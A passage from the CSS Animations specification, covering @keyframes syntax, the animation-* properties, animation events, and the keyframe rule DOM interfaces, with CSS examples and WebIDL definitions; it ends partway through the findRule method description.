This proposal introduces defined animations, in which the author can specify the changes in CSS properties over time as a set of keyframes. Animations are similar to transitions in that they change the presentational value of CSS properties over time. The principal difference is that while transitions trigger implicitly when property values change, animations are explicitly executed when the animation properties are applied. Because of this, animations require explicit values for the properties being animated. These values are specified using animation keyframes, described below.

Many aspects of the animation can be controlled, including how many times the animation iterates, whether or not it alternates between the begin and end values, and whether or not the animation should be running or paused. An animation can also delay its start time.

#### 1.1.  Value Definitions {#css-animations-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  CSS Animations Model {#css-animations-1:animations}

CSS Animations affect computed property values. This effect happens by adding a specified value to the CSS cascade ([CSS3CASCADE]) (at the level for CSS Animations) that will produce the correct computed value for the current state of the animation. As defined in [CSS3CASCADE], animations override all normal rules, but are overridden by !important rules.

If at some point in time there are multiple animations specifying behavior for the same property, the animation which occurs last in the value of `animation-name` will override the other animations at that point.

An animation does not affect the computed value before the application of the animation (that is, when the `animation-name` property is set on an element) or after it is removed. Furthermore, typically an animation does not affect the computed value before the animation delay has expired or after the end of the animation, but may do so depending on the `animation-fill-mode` property.

While running, the animation computes the value of those properties it animates. Other values may take precedence over the animated value according to the CSS cascade ([CSS3CASCADE]).

While an animation is applied but has not finished, or has finished but has an `animation-fill-mode` of `forwards` or `both`, the user agent must act as if the `will-change` property ([css-will-change-1]) on the element additionally includes all the properties animated by the animation.

The start time of an animation is the time at which the style applying the animation and the corresponding @keyframes rule are both resolved. If an animation is specified for an element but the corresponding @keyframes rule does not yet exist, the animation cannot start; the animation will start from the beginning as soon as a matching @keyframes rule can be resolved. An animation specified by dynamically modifying the element’s style will start when this style is resolved; that may be immediately in the case of a pseudo style rule such as hover, or may be when the scripting engine returns control to the browser (in the case of style applied by script). Note that dynamically updating keyframe style rules does not start or re-start an animation.

An animation applies to an element if its name appears as one of the identifiers in the computed value of the `animation-name` property and the animation uses a valid @keyframes rule. Once an animation has started it continues until it ends or the `animation-name` is removed. Changes to the values of animation properties while the animation is running apply as if the animation had those values from when it began. For example, shortening the `animation-delay` may cause the animation to jump forwards or even finish immediately and dispatch an `animationend` event. Conversely, extending the `animation-delay` may cause an animation to re-start and dispatch an `animationstart` event.

The same @keyframes rule name may be repeated within an `animation-name`. Changes to the `animation-name` update existing animations by iterating over the new list of animations from last to first, and, for each animation, finding the *last* matching animation in the list of existing animations. If a match is found, the existing animation is updated using the animation properties corresponding to its position in the new list of animations, whilst maintaining its current playback time as described above. The matching animation is removed from the existing list of animations such that it will not match twice. If a match is not found, a new animation is created. As a result, updating `animation-name` from ‘a’ to ‘a, a’ will cause the existing animation for ‘a’ to become the *second* animation in the list and a new animation will be created for the first item in the list.

> **Example:** ```
> div {
>   animation-name: diagonal-slide;
>   animation-duration: 5s;
>   animation-iteration-count: 10;
> }
>
> @keyframes diagonal-slide {
>
>   from {
>     left: 0;
>     top: 0;
>   }
>
>   to {
>     left: 100px;
>     top: 100px;
>   }
>
> }
> ```
>
> This will produce an animation that moves an element from (0, 0) to (100px, 100px) over five seconds and repeats itself nine times (for a total of ten iterations).

Setting the `display` property to `none` will terminate any running animation applied to the element and its descendants. If an element has a `display` of `none`, updating `display` to a value other than `none` will start all animations applied to the element by the `animation-name` property, as well as all animations applied to descendants with `display` other than `none`.

While authors can use animations to create dynamically changing content, dynamically changing content can lead to seizures in some users. For information on how to avoid content that can lead to seizures, see Guideline 2.3: Seizures: Do not design content in a way that is known to cause seizures ([WCAG20]).

Implementations may ignore animations when the rendering medium is not interactive e.g. when printed. A future version of this specification may define how to render animations for these media.

### 3.  Declaring Keyframes {#css-animations-1:keyframes}

Keyframes are used to specify the values for the animating properties at various points during the animation. The keyframes specify the behavior of one cycle of the animation; the animation may iterate zero or more times.

Keyframes are specified using the **@keyframes** at-rule, defined as follows:

```
@keyframes = @keyframes <keyframes-name> { <qualified-rule-list> }

<keyframes-name> = <custom-ident> | <string>

<keyframe-block> = <keyframe-selector># { <declaration-list> }

<keyframe-selector> = from | to | <percentage [0,100]>
```

The `<rule-list>` inside of `@keyframes` can only contain `<keyframe-block>` rules.

The `<declaration-list>` inside of `<keyframe-block>` accepts any CSS property except those defined in this specification, but *does* accept the `animation-timing-function` property and interprets it specially. None of the properties interact with the cascade (so using `!important` on them is invalid and will cause the property to be ignored).

A `@keyframes` block has a name given by the `<custom-ident>` or `<string>` in its prelude. The two syntaxes are equivalent in functionality; the name is the value of the ident or string. As normal for <custom-ident>s and <string>s, the names are fully case-sensitive; two names are equal only if they are codepoint-by-codepoint equal.

The `<custom-ident>` additionally excludes the `none` keyword. The `<string>` additionally excludes the empty string (but allows the string "none" and other excluded keywords). When serialized, the value is serialized as an `<ident>` unless it’s a disallowed keyword, in which case it’s serialized as a <string>.

> **Example:** For example, the following two `@keyframes` rules have the same name, so the first will be ignored:
>
> ```css
> @keyframes foo { /* ... */ }
> @keyframes "foo" { /* ... */ }
> ```
>
> On the other hand, the following `@keyframes` rule’s name is *different* from the previous two rules:
>
> ```css
> @keyframes FOO { /* ... */ }
> ```
>
> The following `@keyframes` rules are invalid because they use disallowed `<custom-ident>` values:
>
> ```css
> @keyframes initial { /* ... */ }
> @keyframes None { /* ... */ }
> ```
>
> However, those names *can* be specified with a `<string>`, so the following are both *valid*:
>
> ```css
> @keyframes "initial" { /* ... */ }
> @keyframes "None" { /* ... */ }
> ```

The `<keyframe-selector>` for a `<keyframe-block>` consists of a comma-separated list of percentage values or the keywords `from` or `to`. The selector is used to specify the percentage along the duration of the animation that the keyframe represents. The keyframe itself is specified by the block of property values declared on the selector. The keyword `from` is equivalent to the value `0%`. The keyword `to` is equivalent to the value `100%`. Values less than `0%` or higher than `100%` are invalid and cause their <keyframe-block> to be ignored.

> **Note:** Note that the percentage unit specifier must be used on percentage values. Therefore, `0` is an invalid keyframe selector.

If a `0%` or `from` keyframe is not specified, then the user agent constructs a `0%` keyframe using the computed values of the properties being animated. If a `100%` or `to` keyframe is not specified, then the user agent constructs a `100%` keyframe using the computed values of the properties being animated.

The `<keyframe-block>` contains properties and values. The properties defined by this specification are ignored in these rules, with the exception of `animation-timing-function`, the behavior of which is described below. In addition, properties qualified with !important are invalid and ignored.

If multiple `@keyframes` rules are defined with the same name, the last one in document order wins, and all preceding ones are ignored.

> **Example:** ```
> div {
>   animation-name: slide-right;
>   animation-duration: 2s;
> }
>
> @keyframes slide-right {
>
>   from {
>     margin-left: 0px;
>   }
>
>   50% {
>     margin-left: 110px;
>     opacity: 1;
>   }
>
>   50% {
>     opacity: 0.9;
>   }
>
>   to {
>     margin-left: 200px;
>   }
>
> }
> ```
>
> The two 50% rules from above can also be combined into an equivalent single rule as illustrated below:
>
> ```
> @keyframes slide-right {
>
>   from {
>     margin-left: 0px;
>   }
>
>   50% {
>     margin-left: 110px;
>     opacity: 0.9;
>   }
>
>   to {
>     margin-left: 200px;
>   }
>
> }
> ```

To determine the set of keyframes, all of the values in the selectors are sorted in increasing order by time. The rules within the `@keyframes` rule then cascade; the properties of a keyframe may thus derive from more than one `@keyframes` rule with the same selector value.

If a property is not specified for a keyframe, or is specified but invalid, the animation of that property proceeds as if that keyframe did not exist. Conceptually, it is as if a set of keyframes is constructed for each property that is present in any of the keyframes, and an animation is run independently for each property.

> **Example:** ```
> @keyframes wobble {
>   0% {
>     left: 100px;
>   }
>
>   40% {
>     left: 150px;
>   }
>
>   60% {
>     left: 75px;
>   }
>
>   100% {
>     left: 100px;
>   }
> }
> ```
>
> Four keyframes are specified for the animation named "wobble". In the first keyframe, shown at the beginning of the animation cycle, the value of the `left` property being animated is `100px`. By 40% of the animation duration, `left` has animated to `150px`. At 60% of the animation duration, `left` has animated back to `75px`. At the end of the animation cycle, the value of `left` has returned to `100px`. The diagram below shows the state of the animation if it were given a duration of `10s`.
>
> 
>
> Animation states specified by keyframes

> **Issue:** This specification needs to define how the value is determined from the keyframes, like the section on [Application of transitions](#css-transitions-2:application) does for CSS Transitions.

#### 3.1.  Timing functions for keyframes {#css-animations-1:timing-functions}

A keyframe style rule may also declare the timing function that is to be used as the animation moves to the next keyframe.

> **Example:** ```
> @keyframes bounce {
>
>   from {
>     top: 100px;
>     animation-timing-function: ease-out;
>   }
>
>   25% {
>     top: 50px;
>     animation-timing-function: ease-in;
>   }
>
>   50% {
>     top: 100px;
>     animation-timing-function: ease-out;
>   }
>
>   75% {
>     top: 75px;
>     animation-timing-function: ease-in;
>   }
>
>   to {
>     top: 100px;
>   }
>
> }
> ```
>
> Five keyframes are specified for the animation named "bounce". Between the first and second keyframe (i.e., between 0% and 25%) an ease-out timing function is used. Between the second and third keyframe (i.e., between 25% and 50%) an ease-in timing function is used. And so on. The effect will appear as an element that moves up the page 50px, slowing down as it reaches its highest point then speeding up as it falls back to 100px. The second half of the animation behaves in a similar manner, but only moves the element 25px up the page.

A timing function specified on the `to` or `100%` keyframe is ignored.

See the `animation-timing-function` property for more information.

### 4.  Declaring Animations {#css-animations-1:animation-definition}

CSS Animations are defined by binding keyframes to an element using the `animation-*` properties. These list-valued properties, which are all longhands of the `animation` shorthand, form a coordinating list property group with `animation-name` as the coordinating list base property and each item in the coordinated value list defining the properties of a single animation effect.

> **Note:** This is analogous to the behavior of the `background-*` properties, with `background-image` analogous to `animation-name`.

See [CSS Values 4 § A Coordinating List-Valued Properties](#css-values-4:linked-properties) for how the individual `animation-*` property values coordinate.

#### 4.1.  The `animation-name` property {#css-animations-1:animation-name}

The `animation-name` property defines a list of animations that apply. Each name is used to select the keyframe at-rule that provides the property values for the animation. If the name does not match any keyframe at-rule, there are no properties to be animated and the animation will not execute. Furthermore, if the animation name is `none` then there will be no animation. This can be used to override any animations coming from the cascade. If multiple animations are attempting to modify the same property, then the animation closest to the end of the list of names wins.

| Field | Value |
| --- | --- |
| Name: | **animation-name** |
| [Value:](#css-values-4:value-defs) | [ none \| `<keyframes-name>` ]# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item either a case-sensitive css identifier or the keyword `none` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

The values of `animation-name` have the following meanings:

****none****

: No keyframes are specified at all, so there will be no animation. Any other animations properties specified for this animation have no effect.

****`<keyframes-name>`****

: The animation will use the keyframes with the name specified by the `<keyframes-name>`, if they exist. If no `@keyframes` rule with that name exists, there is no animation.

#### 4.2.  The `animation-duration` property {#css-animations-1:animation-duration}

The `animation-duration` property defines duration of a single animation cycle.

| Field | Value |
| --- | --- |
| Name: | **animation-duration** |
| [Value:](#css-values-4:value-defs) | `<time [0s,∞]>`# |
| [Initial:](#css-cascade-6:initial-values) | 0s |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a duration |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

****`<time [0s,∞]>`****

: Specifies the length of time that an animation takes to complete one cycle. A negative `<time>` is invalid.

  If the `<time>` is `0s`, like the initial value, the keyframes of the animation have no effect, but the animation itself still occurs instantaneously. Specifically, start and end events are fired; if `animation-fill-mode` is set to `backwards` or `both`, the first frame of the animation, as defined by `animation-direction`, will be displayed during the `animation-delay`. After the `animation-delay` the last frame of the animation, as defined by `animation-direction`, will be displayed if `animation-fill-mode` is set to `forwards` or `both`. If `animation-fill-mode` is set to `none` the animation will have no visible effect.

#### 4.3.  The `animation-timing-function` property {#css-animations-1:animation-timing-function}

The `animation-timing-function` property describes how the animation will progress between each pair of keyframes. Timing functions are defined in the separate CSS Easing Functions module [css-easing-1].

The input progress value used is the percentage of the time elapsed between the current keyframe and the next keyframe *after* incorporating the effect of the `animation-direction` property.

During the `animation-delay`, the `animation-timing-function` is not applied.

> **Note:** This definition is necessary because otherwise a step easing function with a step position of `start` would produce a backwards fill equal to the top of the first step in the function.

The output progress value is used as the *p* value when interpolating the property values between the current and next keyframe.

| Field | Value |
| --- | --- |
| Name: | **animation-timing-function** |
| [Value:](#css-values-4:value-defs) | `<easing-function>`# |
| [Initial:](#css-cascade-6:initial-values) | ease |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a computed `<easing-function>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

When specified in a keyframe, `animation-timing-function` defines the progression of the animation between the current keyframe and the next keyframe for the animating property in sorted keyframe selector order (which may be an implicit 100% keyframe).

#### 4.4.  The `animation-iteration-count` property {#css-animations-1:animation-iteration-count}

The `animation-iteration-count` property specifies the number of times an animation cycle is played. The initial value is `1`, meaning the animation will play from beginning to end once. This property is often used in conjunction with an `animation-direction` value of `alternate`, which will cause the animation to play in reverse on alternate cycles.

The time window during which the animation is active (`duration` x `iteration-count`) is known as the **active duration**.

| Field | Value |
| --- | --- |
| Name: | **animation-iteration-count** |
| [Value:](#css-values-4:value-defs) | `<single-animation-iteration-count>`# |
| [Initial:](#css-cascade-6:initial-values) | 1 |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item either a number or the keyword `infinite` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

**<single-animation-iteration-count>** = infinite | `<number [0,∞]>`

****infinite****

: The animation will repeat forever.

****`<number [0,∞]>`****

: The animation will repeat the specified number of times. If the number is not an integer, the animation will end partway through its last cycle. Negative numbers are invalid.

  A value of `0` is valid and, similar to an `animation-duration` of `0s`, causes the animation to occur instantaneously.

If the animation has a duration of `0s`, it will occur instantaneously for any valid value of `animation-iteration-count`, including `infinite`.

#### 4.5.  The `animation-direction` property {#css-animations-1:animation-direction}

The `animation-direction` property defines whether or not the animation should play in reverse on some or all cycles. When an animation is played in reverse the timing functions are also reversed. For example, when played in reverse an `ease-in` animation would appear to be an `ease-out` animation.

| Field | Value |
| --- | --- |
| Name: | **animation-direction** |
| [Value:](#css-values-4:value-defs) | `<single-animation-direction>`# |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a keyword as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

**<single-animation-direction>** = normal | reverse | alternate | alternate-reverse

****normal****

: All iterations of the animation are played as specified.

****reverse****

: All iterations of the animation are played in the reverse direction from the way they were specified.

****alternate****

: The animation cycle iterations that are odd counts are played in the normal direction, and the animation cycle iterations that are even counts are played in a reverse direction.

****alternate-reverse****

: The animation cycle iterations that are odd counts are played in the reverse direction, and the animation cycle iterations that are even counts are played in a normal direction.

> **Note:** For the purpose of determining whether an iteration is even or odd, iterations start counting from 1.

#### 4.6.  The `animation-play-state` property {#css-animations-1:animation-play-state}

The `animation-play-state` property defines whether the animation is running or paused.

| Field | Value |
| --- | --- |
| Name: | **animation-play-state** |
| [Value:](#css-values-4:value-defs) | `<single-animation-play-state>`# |
| [Initial:](#css-cascade-6:initial-values) | running |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a keyword as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

**<single-animation-play-state>** = running | paused

****running****

: While this property is set to `running`, the animation proceeds as normal.

****paused****

: While this property is set to `paused`, the animation is paused. The animation continues to apply to the element with the progress it had made before being paused. When unpaused (set back to `running`), it restarts from where it left off, as if the "clock" that controls the animation had stopped and started again.

  If the property is set to `paused` during the delay phase of the animation, the delay clock is also paused and resumes as soon as `animation-play-state` is set back to `running`.

#### 4.7.  The `animation-delay` property {#css-animations-1:animation-delay}

The `animation-delay` property defines when the animation will start. It allows an animation to begin execution some time after it is applied, or to appear to have begun execution some time *before* it is applied.

| Field | Value |
| --- | --- |
| Name: | **animation-delay** |
| [Value:](#css-values-4:value-defs) | `<time>`# |
| [Initial:](#css-cascade-6:initial-values) | 0s |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a duration |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

****`<time>`****

: The `<time>` defines how long of a delay there is between the start of the animation (when the animation is applied to the element via these properties) and when it begins executing. A delay of `0s` (the initial value) means that the animation will execute as soon as it is applied.

  A negative delay is **valid**. Similar to a delay of `0s`, it means that the animation executes immediately, but is automatically progressed by the absolute value of the delay, as if the animation had started the specified time in the past, and so it appears to start partway through its [active duration](#css-animations-1:animation-iteration-count). If an animation’s keyframes have an implied starting value, the values are taken from the time the animation starts, not some time in the past.

#### 4.8.  The `animation-fill-mode` property {#css-animations-1:animation-fill-mode}

The `animation-fill-mode` property defines what values are applied by the animation outside the time it is executing. By default, an animation will not affect property values between the time it is applied (the `animation-name` property is set on an element) and the time it begins execution (which is determined by the `animation-delay` property). Also, by default an animation does not affect property values after the animation ends (determined by the `animation-duration` and `animation-iteration-count` properties). The `animation-fill-mode` property can override this behavior. Dynamic updates to the property will be reflected by property values as needed, whether during the animation delay or after the animation ends.

| Field | Value |
| --- | --- |
| Name: | **animation-fill-mode** |
| [Value:](#css-values-4:value-defs) | `<single-animation-fill-mode>`# |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | list, each item a keyword as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

**<single-animation-fill-mode>** = none | forwards | backwards | both

****none****

: The animation has no effect when it is applied but not executing.

****forwards****

: After the animation ends (as determined by its `animation-iteration-count`), the animation will apply the property values for the time the animation ended. When `animation-iteration-count` is an integer greater than zero, the values applied will be those for the end of the last completed iteration of the animation (rather than the values for the start of the iteration that would be next). When `animation-iteration-count` is zero, the values applied will be those that would start the first iteration (just as when `animation-fill-mode` is `backwards`).

****backwards****

: During the period defined by `animation-delay`, the animation will apply the property values defined in the keyframe that will start the first iteration of the animation. These are either the values of the `from` keyframe (when `animation-direction` is `normal` or `alternate`) or those of the `to` keyframe (when `animation-direction` is `reverse` or `alternate-reverse`).

****both****

: The effects of both `forwards` and `backwards` fill apply.

#### 4.9.  The `animation` shorthand property {#css-animations-1:animation}

The `animation` shorthand property is a comma-separated list of animation definitions. Each item in the list gives one item of the value for all of the subproperties of the shorthand, which are known as the animation properties. (See the definition of `animation-name` for what happens when these properties have lists of different lengths, a problem that cannot occur when they are defined using only the `animation` shorthand.)

| Field | Value |
| --- | --- |
| Name: | **animation** |
| [Value:](#css-values-4:value-defs) | `<single-animation>`# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

**<single-animation>** = `<time [0s,∞]>` || `<easing-function>` || <time> || `<single-animation-iteration-count>` || `<single-animation-direction>` || `<single-animation-fill-mode>` || `<single-animation-play-state>` || [ none | `<keyframes-name>` ]

Order is important within each animation definition: the first value in each `<single-animation>` that can be parsed as a `<time>` is assigned to the `animation-duration`, and the second value in each <single-animation> that can be parsed as a <time> is assigned to `animation-delay`.

Order is also important within each animation definition for distinguishing `<keyframes-name>` values from other keywords. When parsing, keywords that are valid for properties other than `animation-name` whose values were not found earlier in the shorthand must be accepted for those properties rather than for `animation-name`. Furthermore, when serializing, default values of other properties must be output in at least the cases necessary to distinguish an `animation-name` that could be a value of another property, and may be output in additional cases.

> **Example:** For example, a value parsed from `animation: 3s none backwards` (where `animation-fill-mode` is `none` and `animation-name` is `backwards`) must not be serialized as `animation: 3s backwards` (where `animation-fill-mode` is `backwards` and `animation-name` is `none`).

### 5.  Animation Events {#css-animations-1:events}

Several animation-related events are available through the DOM Event system. The start and end of an animation, and the end of each iteration of an animation, all generate DOM events. An element can have multiple properties being animated simultaneously. This can occur either with a single `animation-name` value with keyframes containing multiple properties, or with multiple `animation-name` values. For the purposes of events, each `animation-name` specifies a single animation. Therefore an event will be generated for each `animation-name` value and not necessarily for each property being animated.

Any animation for which a valid keyframe rule is defined will run and generate events; this includes animations with empty keyframe rules.

The time the animation has been running is sent with each event generated. This allows the event handler to determine the current iteration of a looping animation or the current position of an alternating animation. This time does not include any time the animation was in the `paused` play state.

#### 5.1.  The `AnimationEvent` Interface {#css-animations-1:interface-animationevent}

The `AnimationEvent` interface provides specific contextual information associated with Animation events.

##### 5.1.1.  IDL Definition {#css-animations-1:interface-animationevent-idl}

```webidl
[Exposed=Window]
interface AnimationEvent : Event {
  constructor(CSSOMString type, optional AnimationEventInit animationEventInitDict = {});
  readonly attribute CSSOMString animationName;
  readonly attribute double elapsedTime;
  readonly attribute CSSOMString pseudoElement;
};
dictionary AnimationEventInit : EventInit {
  CSSOMString animationName = "";
  double elapsedTime = 0.0;
  CSSOMString pseudoElement = "";
};
```

##### 5.1.2.  Attributes {#css-animations-1:interface-animationevent-attributes}

****`animationName`**,  of type CSSOMString, readonly**

: The value of the `animation-name` property of the animation that fired the event.

****`elapsedTime`**,  of type double, readonly**

: The amount of time the animation has been running, in seconds, when this event fired, excluding any time the animation was paused. The precise calculation for of this member is defined along with each event type.

****`pseudoElement`**,  of type CSSOMString, readonly**

: The name (beginning with two colons) of the CSS pseudo-element on which the animation runs (in which case the target of the event is that pseudo-element’s corresponding element), or the empty string if the animation runs on an element (which means the target of the event is that element).

**`AnimationEvent(type, animationEventInitDict)`** is an event constructor.

#### 5.2.  Types of `AnimationEvent` {#css-animations-1:event-animationevent}

The different types of animation events that can occur are:

****`animationstart`****

: The `animationstart` event occurs at the start of the animation. If there is an `animation-delay` then this event will fire once the delay period has expired.

  A negative delay will cause the event to fire with an `elapsedTime` equal to the absolute value of the delay capped to the active duration of the animation, that is, `min(max(-animation-delay, 0), active duration)`; in this case the event will fire whether `animation-play-state` is set to `running` or `paused`.

  - Bubbles: Yes
  - Cancelable: No
  - Context Info: animationName, elapsedTime, pseudoElement

****`animationend`****

: The `animationend` event occurs when the animation finishes. In this case the value of the `elapsedTime` member of the event is equal to the active duration.

  - Bubbles: Yes
  - Cancelable: No
  - Context Info: animationName, elapsedTime, pseudoElement

****`animationiteration`****

: The `animationiteration` event occurs at the end of each iteration of an animation, except when an animationend event would fire at the same time. This means that this event does not occur for animations with an iteration count of one or less.

  The `elapsedTime` member in this case is equal to the product of the *current iteration* and `animation-duration` where the *current iteration* is the zero-based index of the new iteration. For example, assuming no negative `animation-delay`, after one iteration completes the *current iteration* would be one.

  - Bubbles: Yes
  - Cancelable: No
  - Context Info: animationName, elapsedTime, pseudoElement

****`animationcancel`****

: The `animationcancel` event occurs when the animation stops running in a way that does not fire an `animationend` event, such as a change in the `animation-name` that removes the animation, or the animating element or one of its ancestors becoming `display:none`.

  The `elapsedTime` member for this event indicates the number of seconds that had elapsed since the beginning of the animation at the moment when the animation was canceled. This excludes any time where the animation was paused. If the animation had a negative `animation-delay`, the beginning of the animation is the moment equal to the absolute value of `animation-delay` seconds *prior* to when the animation was actually triggered. Alternatively, if the animation had a positive `animation-delay` and the event is fired before the animation’s delay has expired, the `elapsedTime` will be zero.

  - Bubbles: Yes
  - Cancelable: No
  - Context Info: animationName, elapsedTime, pseudoElement

#### 5.3. Event handlers on elements, `Document` objects, and `Window` objects {#css-animations-1:event-handlers-on-elements-document-objects-and-window-objects}

The following are the event handlers (and their corresponding event handler event types) that must be supported by all HTML elements, as both event handler content attributes and event handler IDL attributes; and that must be supported by all `Document` and `Window` objects, as event handler IDL attributes:

| Event handler | Event handler event type |
| --- | --- |
| **`onanimationstart`** | `animationstart` |
| **`onanimationiteration`** | `animationiteration` |
| **`onanimationend`** | `animationend` |
| **`onanimationcancel`** | `animationcancel` |

### 6.  DOM Interfaces {#css-animations-1:interface-dom}

CSS animations are exposed to the CSSOM through a pair of new interfaces describing the keyframes.

> **Note:** the interfaces defined below reflect the interoperable API available as of this level of the specification. Future levels may deprecate parts of this API and extend others.

#### 6.1.  The `CSSRule` Interface {#css-animations-1:interface-cssrule}

The following two rule types are added to the `CSSRule` interface. They provide identification for the new keyframe and keyframes rules.

##### 6.1.1.  IDL Definition {#css-animations-1:interface-cssrule-idl}

```webidl
partial interface CSSRule {
    const unsigned short KEYFRAMES_RULE = 7;
    const unsigned short KEYFRAME_RULE = 8;
};
```

#### 6.2.  The `CSSKeyframeRule` Interface {#css-animations-1:interface-csskeyframerule}

The `CSSKeyframeRule` interface represents the style rule for a single key.

##### 6.2.1.  IDL Definition {#css-animations-1:interface-csskeyframerule-idl}

```webidl
[Exposed=Window]
interface CSSKeyframeRule : CSSRule {
  attribute CSSOMString keyText;
  [SameObject, PutForwards=cssText] readonly attribute CSSStyleProperties style;
};
```

##### 6.2.2.  Attributes {#css-animations-1:interface-csskeyframerule-attributes}

****`keyText`**,  of type CSSOMString**

: This attribute represents the keyframe selector as a comma-separated list of percentage values. The `from` and `to` keywords map to 0% and 100%, respectively.

  If keyText is updated with an invalid keyframe selector, a SyntaxError exception must be thrown and the value of keyText must remain unchanged.

****`style`**,  of type CSSStyleProperties, readonly**

: Must return a `CSSStyleProperties` object for the keyframe rule, with the following properties:

  **readonly flag**

  : Unset.

  **declarations**

  : The declared declarations in the rule, in specified order.

  **parent CSS rule**

  : The context object (i.e. this `CSSKeyframeRule`).

  **owner node**

  : Null.

#### 6.3.  The `CSSKeyframesRule` Interface {#css-animations-1:interface-csskeyframesrule}

The `CSSKeyframesRule` interface represents a complete set of keyframes for a single animation.

##### 6.3.1.  IDL Definition {#css-animations-1:interface-csskeyframesrule-idl}

```webidl
[Exposed=Window]
interface CSSKeyframesRule : CSSRule {
           attribute CSSOMString name;
  readonly attribute CSSRuleList cssRules;
  readonly attribute unsigned long length;

  getter CSSKeyframeRule (unsigned long index);
  undefined        appendRule(CSSOMString rule);
  undefined        deleteRule(CSSOMString select);
  CSSKeyframeRule? findRule(CSSOMString select);
};
```

##### 6.3.2.  Attributes {#css-animations-1:interface-csskeyframesrule-attributes}

****`name`**,  of type CSSOMString**

: This attribute is the name of the keyframes, used by the `animation-name` property.

****`cssRules`**,  of type CSSRuleList, readonly**

: This attribute gives access to the keyframes in the list.

****`length`**,  of type unsigned long, readonly**

: This attribute is the number of keyframes in the list.

##### 6.3.3.  The indexed property getter {#css-animations-1:interface-csskeyframesrule-indexed-property-getter}

The **`indexed property getter`** returns the `CSSKeyframeRule` from the list of keyframes at the indicated position.

Parameters:

****`index`** of type `unsigned long`**

: The zero-based index of the rule to return.

Return Value:

**`CSSKeyframeRule`**

: The found rule or `undefined` if there is no rule at the specific index.

No Exceptions

##### 6.3.4.  The `appendRule` method {#css-animations-1:interface-csskeyframesrule-appendrule}

The **`appendRule`** method appends the passed `CSSKeyframeRule` at the end of the keyframes rule.

Parameters:

****`rule`** of type `CSSOMString`**

: The rule to be appended, expressed in the same syntax as one entry in the `@keyframes` rule. A valid rule is always appended e.g. even if its key(s) already exists.

No Return Value

No Exceptions

##### 6.3.5.  The `deleteRule` method {#css-animations-1:interface-csskeyframesrule-deleterule}

The **`deleteRule`** method deletes the last declared `CSSKeyframeRule` matching the specified keyframe selector. If no matching rule exists, the method does nothing.

Parameters:

****`select`** of type `CSSOMString`**

: The keyframe selector of the rule to be deleted: a comma-separated list of percentage values between 0% and 100% or the keywords `from` or `to` which resolve to 0% and 100%, respectively.

  The number and order of the values in the specified keyframe selector must match those of the targeted keyframe rule(s). The match is not sensitive to white space around the values in the list.

No Return Value

No Exceptions

##### 6.3.6.  The `findRule` method {#css-animations-1:interface-csskeyframesrule-findrule}

The **`findRule`** returns the last declared `CSSKeyframeRule` matching the specified keyframe selector. If no matching rule exists, the method does nothing.

Parameters:

****`select`** of type `CSSOMString`**

